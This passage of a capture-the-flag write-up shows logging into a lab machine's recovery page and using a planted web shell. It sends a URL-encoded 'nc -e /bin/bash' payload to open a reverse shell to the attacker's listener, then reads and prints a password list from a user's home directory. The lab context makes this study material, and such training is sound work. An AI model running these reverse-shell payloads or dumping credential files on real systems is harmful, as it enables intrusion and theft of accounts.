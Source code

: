 In the browser, authenticate in the `recover.php` page with `jackinthebox:TplFxiSHjY`. You will be redirected to `/nnxhweOV/index.php` that shows the following message:

~~~
GET me a 'cmd' and I'll run it for you Future-Jack. 
~~~

We now have a web shell:

!["webshell.png"](files/webshell.png)

Let's make a reverse shell; first open a listener:

~~~
$ rlwrap nc -nlvp 9999
~~~

Now, send the following payload:

~~~
http://10.10.216.6:22/nnxhweOV/index.php?cmd=nc%20-e%20/bin/bash%2010.11.9.81%2080%209999
~~~

In our reverse shell:

~~~
$ rlwrap nc -nlvp 9999

ls
index.php

cd /home

ls
jack
jacks_password_list

wc -l jacks_password_list
24 jacks_password_list

cat jacks_password_list
*hclqAzj+2GC+=0K
eN<A@n^zI?FE$I5,
X<(@zo2XrEN)#MGC
,,aE1K,nW3Os,afb
ITMJpGGIqg1jn?>@
0HguX{,fgXPE;8yF
sjRUb4*@pz<*ZITu
[8V7o^gl(Gjt5[WB
yTq0jI$d}Ka<T}PD
Sc".[[2pL<>e)vC4}
9;}#q*,A4wd{<X.T
M41nrFt#PcV=(3%p
GZx.t)H$&awU;SO<
.MVettz]a;&Z;cAC
2fh%i9Pr5YiYIf51
TDF@mdEd3ZQ(]hBO
v]XBmwAk8vk5t3EF
9iYZeZGQGG9&W4d1
8TIFce;KjrBWTAY^
SeUAwt7EB#fY&+yt
n.FZvJ.x9sYe5s5d
~~~
